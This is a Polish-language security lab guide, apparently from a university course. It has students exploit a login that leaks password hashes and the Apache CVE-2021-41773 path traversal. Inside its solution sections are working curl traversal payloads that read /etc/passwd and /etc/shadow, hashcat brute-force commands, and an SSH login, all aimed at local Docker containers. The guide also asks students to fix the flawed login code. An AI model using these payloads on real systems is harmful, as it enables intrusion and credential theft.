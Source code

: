# __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi.

<details>
<summary>Rozwązanie</summary>
<br>

Wysyłamy zapytanie z formularza logowania do użytkownika `admin` za pomocą **Burpa** a nastepnie odczytujemy hash hasła z odpowiedzi uzyskanej od serwera.

Uzyskanie hasło próbujemy złamać przy pomocy hashcata

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany.

Jeśli chodzi o ciąg znaków "?u?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Czyli hashcat dla argunetu "?u?u?u?u" wygeneruje wszytskie 4 znakowe możliwości liter "ABCDEFGHIJKLMNOPQRSTUVWXYZ".

Po złamaniu hasła logujemy się na serwer

</details>

## **Zadanie 2**
Korzystając z wiedzy zdobytej podczas prezentacji oraz na innych zajęciach, popraw aplikację, tak aby do porównywania haszy dochodziło w odpowiednim miejscu. Czyli:
1. Porównywanie haszy powinno następować bezpośrednio po pobraniu haszu z bazy danych.
2. Serwer nie może pobranego z bazy danych haszu zwracać w odpowiedzi do klienta.

<details>
<summary>Wskazówki</summary>
<br>
W pliku 
```
server.js
```
w endpoincie ```/login``` zahaszuj hasło którym użytkownik próbuje się zalogować (skorzystaj z wzoru w kodzie klienta), następnie porównaj je z haszem wyciąganym z bazy. Do klienta w ```res``` wyślij status: ```200 OK``` lub ```401 Unauthorized``` w zależności od tego czy dane logowania się zgadzają. Zrób to za pomocą ```res.sendStatus(code)```
</details>


<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 2**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

<details>
<summary>Rozwązanie</summary>

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/shadow
```

wynik:

```console
...
agh:$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1:19364:0:99999:7:::
```

zapisujemy hash w pliku

```
echo '$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1' > password
```

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Po złamaniu hasła logujemy sie na serwer

```
ssh agh@localhost
```

</details>
